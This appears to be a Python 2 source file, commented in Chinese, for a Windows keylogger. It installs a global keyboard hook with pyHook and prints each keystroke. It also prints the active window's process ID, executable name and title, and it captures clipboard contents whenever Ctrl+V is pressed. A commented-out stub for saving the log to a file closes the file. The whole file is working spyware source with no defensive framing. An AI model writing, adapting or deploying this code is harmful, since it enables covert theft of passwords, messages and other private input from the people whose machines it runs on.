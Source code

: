 # jiapan
# -*- coding: utf-8 -*-  
from ctypes import *
import pythoncom
import pyHook
import win32clipboard
 
user32 = windll.user32
kernel32 = windll.kernel32
psapi = windll.psapi
current_window = None
 
# 
def get_current_process():
 
    # 获取最上层的窗口句柄
    hwnd = user32.GetForegroundWindow()
 
    # 获取进程ID
    pid = c_ulong(0)
    user32.GetWindowThreadProcessId(hwnd,byref(pid))
 
    # 将进程ID存入变量中
    process_id = "%d" % pid.value
 
    # 申请内存
    executable = create_string_buffer("\x00"*512)
    h_process = kernel32.OpenProcess(0x400 | 0x10,False,pid)
 
    psapi.GetModuleBaseNameA(h_process,None,byref(executable),512)
 
    # 读取窗口标题
    windows_title = create_string_buffer("\x00"*512)
    length = user32.GetWindowTextA(hwnd,byref(windows_title),512)
 
    # 打印
    print
    print "[ PID:%s-%s-%s]" % (process_id,executable.value,windows_title.value)
    print
 
    # 关闭handles
    kernel32.CloseHandle(hwnd)
    kernel32.CloseHandle(h_process)
 
# 定义击键监听事件函数
def KeyStroke(event):
 
    global current_window
 
    # 检测目标窗口是否转移(换了其他窗口就监听新的窗口)
    if event.WindowName != current_window:
        current_window = event.WindowName
        # 函数调用
        get_current_process()
 
    # 检测击键是否常规按键（非组合键等）
    if event.Ascii > 32 and event.Ascii <127:
        print chr(event.Ascii),
    else:
        # 如果发现Ctrl+v（粘贴）事件，就把粘贴板内容记录下来
        if event.Key == "V":
            win32clipboard.OpenClipboard()
            pasted_value = win32clipboard.GetClipboardData()
            win32clipboard.CloseClipboard()
            print "[PASTE]-%s" % (pasted_value),
        else:
            print "[%s]" % event.Key,
    # 循环监听下一个击键事件
    return True
 
# 创建并注册hook管理器
kl = pyHook.HookManager()
kl.KeyDown = KeyStroke
 
# 注册hook并执行
kl.HookKeyboard()
pythoncom.PumpMessages()

'''f = file('jianpanjilu.txt','w')
f.writelines(text,bb,cc)
f.ciose()'''
